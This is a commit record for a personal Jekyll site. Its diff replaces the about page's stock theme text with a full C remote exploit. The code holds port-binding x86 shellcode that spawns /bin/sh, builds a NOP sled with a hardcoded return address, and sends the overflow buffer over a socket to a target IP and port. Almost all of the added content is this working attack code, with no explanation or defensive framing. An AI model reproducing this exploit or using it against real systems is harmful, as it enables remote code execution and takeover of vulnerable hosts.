

Before and after one commit to c0debreaker/c0debreaker.github.io, a Jekyll site: the page built from about.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
updated about

```diff
--- a/about.md
+++ b/about.md
@@ -1,28 +1,104 @@
 ---
 layout: page
 permalink: /about/
-title: About the Theme
-tagline: Minimal Mistakes, a Jekyll Theme
-tags: [about, Jekyll, theme, responsive]
+title: About Neil
+tagline: Ronneil, Neil
+tags: [about, hacking]
 modified: 9-9-2013
 comments: true
 image:
   feature: texture-feature-02.jpg
 ---
 
-Jekyll is pretty rad and figured releasing a cleaned up version of [my site](http://mademistakes.com)[^1] as a theme for others to hack and build on would be fun. So here be that theme --- I call it **Minimal Mistakes**, a responsive Jekyll theme with large featured images and solid typography.
+{% highlight c %}
+#include <stdio.h>
+#include <netdb.h>
+#include <netinet/in.h>
 
-## Minimal Mistakes is all about:
+//Portbinding Shellcode
 
-* Responsive templates. Looking good on mobile, tablet, and desktop.
-* Gracefully degrading in older browsers. Compatible with Internet Explorer 8+ and all modern browsers.
-* Minimal embellishments --- content first.
-* Large feature images for posts and pages.
-* Author sidebar to pimp your bio, photo[^2], and social media links.
-* Simple and clear permalink structure *(ie: domain.com/category/post-title)*
+char shellcode[] =
+"\x89\xe5\x31\xd2\xb2\x66\x89\xd0\x31\xc9\x89\xcb\x43\x89\x5d\xf8"
+"\x43\x89\x5d\xf4\x4b\x89\x4d\xfc\x8d\x4d\xf4\xcd\x80\x31\xc9\x89"
+"\x45\xf4\x43\x66\x89\x5d\xec\x66\xc7\x45\xee\x0f\x27\x89\x4d\xf0"
+"\x8d\x45\xec\x89\x45\xf8\xc6\x45\xfc\x10\x89\xd0\x8d\x4d\xf4\xcd"
+"\x80\x89\xd0\x43\x43\xcd\x80\x89\xd0\x43\xcd\x80\x89\xc3\x31\xc9"
+"\xb2\x3f\x89\xd0\xcd\x80\x89\xd0\x41\xcd\x80\xeb\x18\x5e\x89\x75"
+"\x08\x31\xc0\x88\x46\x07\x89\x45\x0c\xb0\x0b\x89\xf3\x8d\x4d\x08"
+"\x8d\x55\x0c\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh";
 
-<a markdown="0" href="{{ site.url }}/theme-setup" class="btn">Install Minimal Mistakes Theme</a>
+//standard offset (probably must be modified)
+#define RET 0xbffff5ec
 
-[^1]: Since open sourcing this theme I have released a couple other Jekyll themes. My website [Made Mistakes](http://mademistakes.com) is currently using a modified version of my [So Simple Theme](http://mmistakes.github.io/so-simple-theme/).
+int main(int argc, char *argv[]) {
+    char buffer[1064];
+    int s, i, size;
+    struct sockaddr_in remote;
+    struct hostent *host;
 
-[^2]: Fancy avatars provided by [Brandon Mathis](http://brandonmathis.com/projects/fancy-avatars/demo/) under a [Creative Commons Attribution 3.0 License](http://creativecommons.org/licenses/by/3.0/).
+    if (argc != 3) {
+        printf("Usage: %s target-ip port\n", argv[0]);
+        return -1;
+    }
+
+    // filling buffer with NOPs
+    memset(buffer, 0x90, 1064);
+
+    //copying shellcode into buffer
+    memcpy(buffer+1001-sizeof(shellcode) , shellcode, sizeof(shellcode));
+
+    // the previous statement causes a unintential Nullbyte at buffer[1000]
+    buffer[1000] = 0x90;
+
+    // Copying the return address multiple times at the end of the buffer...
+
+    for(i=1022; i < 1059; i+=4) {
+        * ((int *) &buffer[i]) = RET;
+    }
+
+    buffer[1063] = 0x0;
+
+    //getting hostname
+
+    host=gethostbyname(argv[1]);
+
+    if (host==NULL) {
+        fprintf(stderr, "Unknown Host %s\n",argv[1]);
+        return -1;
+    }
+
+    // creating socket...
+    s = socket(AF_INET, SOCK_STREAM, 0);
+
+    if (s < 0) {
+        fprintf(stderr, "Error: Socket\n");
+        return -1;
+    }
+
+    //state Protocolfamily , then converting the hostname or IP address, and getting port number
+    remote.sin_family = AF_INET;
+    remote.sin_addr = *((struct in_addr *)host->h_addr);
+    remote.sin_port = htons(atoi(argv[2]));
+
+    // connecting with destination host
+
+    if (connect(s, (struct sockaddr *)&remote, sizeof(remote))==-1) {
+        close(s);
+        fprintf(stderr, "Error: connect\n");
+        return -1;
+    }
+
+    //sending exploit string
+    size = send(s, buffer, sizeof(buffer), 0);
+    if (size==-1) {
+        close(s);
+        fprintf(stderr, "sending data failed\n");
+        return -1;
+    }
+
+    // closing socket
+
+    close(s);
+
+}
+{% endhighlight %}
```
